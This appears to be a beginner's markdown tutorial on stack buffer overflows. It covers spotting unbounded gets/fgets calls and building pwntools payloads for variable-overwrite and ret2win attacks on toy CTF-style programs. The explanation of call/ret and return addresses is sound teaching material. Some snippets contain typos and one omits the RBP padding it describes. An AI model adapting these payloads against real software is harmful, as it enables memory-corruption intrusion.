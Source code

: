# Stack Overflow
## Identification
We can know there is buffer or stack overflow vulnerabilities when a input function without limit or the limit is exceed the buffer capacity. 
Example:
```
char buff[50]
gets(buff)     // gets function will take input without limit until reach null terminator
```

or with limit with `fgets()`
```
char buff[50]
fgets(buff, 100, stdin) // fgets take input 100 char but the buffer capacity only 50 char
```

## Exploitation and Vulnerabilities
### Variables Arbitrary Write
This one the most simple one. If you can see there is two variables next each other and one of them is the buffer and the other will compared later.  
The example of the source code are like this
```
int cmp
char buff[20]
gets(buff)
if(cmp == 0xCAFEF00D)
{
    win()
}
```
You can see on that code. We need to change the cmp value to `0xCAFEF00D` so that we can call win function. We can send it using python code with `pwntools` module or we can inject it with pipe directly.  
We know the buffer capacity is 20, then we need fill the buffer first then input desired value for the `cmp`.  
so the payload will go like this  
`b'AAAAAAAAAAAAAAAAAAAA\x0D\xF0\xFE\xCA'`  
the reason for the payload is reversed because the memory stores value with little-endian encoding and the reason for we store it `\x0D` because we input it as char but there is no readable char representation for it so we use byte string to input char based on its hex value.  
Payload  
```
p = process('./var')

payload = b'A' * 20   # Padding
payload += b'\x0D\xF0\xFE\xCA' # Desired value
# OR We can use
payload += p64(0xCAFEF00D) # or p32 for x86 architecture

p.sendline(payload)
p.interactve()
```
`p64` or `p32` function is used for convert integer to 8 bytes or 4 bytes little-endian encoding or pack the integer based on system architecture

### Ret2Win
This one bit more interesting then one before.  
Ret2win is exploitation where we overwrites the function return address so that we can return to desired function. To understand it further, I will give simple memory stack layout  
```
 ============
|  Ret Addr  |
 ============
|  Old RBP   | <= RBP
 ============
|            |
|            |
|   Buffer   |
|            |
|            | <= RSP
 ============
```
so, our input will starting from the base of the buffer and fill upwards. if there is no limit in the input, we can overwrite the old rbp even return address.  
Source Code Example:  
```
void win()
{
    puts(flag)
}

void vuln()
{
    char buff[20]
    gets(buff)
}

int main()
{
    vuln()        
}
```
Same as before, the buffer capacity is 20. so we need to fill it first so we can reach old RBP. RBP is a register that save a pointer. So, Old RBP section must be contain 8 bytes for x86-64 or 4 bytes for x86. so we need add the padding for fill the old RBP section before reach return address.  
Payload:  
`b'A' * 20 + b'B' * 8 + <win address>`  
Let say the win function located at `0x12345`  
so our full code goes like this  
```
p = process('./var')

payload = b'A' * 20   # Padding
payload += p64(0x12345) # or p32 for x86 architecture

p.sendline(payload)
p.interactve()
```  

**Section after this will explain how ret2win works more detail, if you don't feel interested or you already understand you can skip it**  
So if you wondering how this is works, like why return address located there ? why there is old RBP saved on stack ?  
We need know how call and ret instruction works  
So when program called a function or a another instruction, it also will save the address of next instruction after the call.  
Disassemble code example :  
```
.
.
.
0x24 <main+20> call vuln
0x25 <main+21> mov rax 0x8(rbp)
.
.
.

0x123 <vuln> push rbp
0x124 <vuln+1> mov rbp, rsp
.
.
.
0x13a <vuln+23> ret
```  
There is one register to manage how the program run, the name is `rip` ( on x86-64 ).
`RIP` will save next instruction so the program know what instruction will be executed.  
so when `call` instruction is executed, the `RIP` value is saved on the stack with `push RIP` (means RIP value will save on top of the stack which means located on where rsp point to) and then RIP will save the called function address. if we see on the example the pushed value will be `0x25` and the RIP will have `0x123`.  
when ret is executed, the RSP register will point to return address means it will point to `0x25` again. the ret instruction is equal to `pop rip`, so the value on the top of the stack will saved again at rip register. so the program will be back to `0x25`.  
Now, if we change the `0x25`, we can control the program flows. That's what we doing in ret2win, we change the return address value so when ret is called. The `RIP` register have the desired function address, not the caller address.
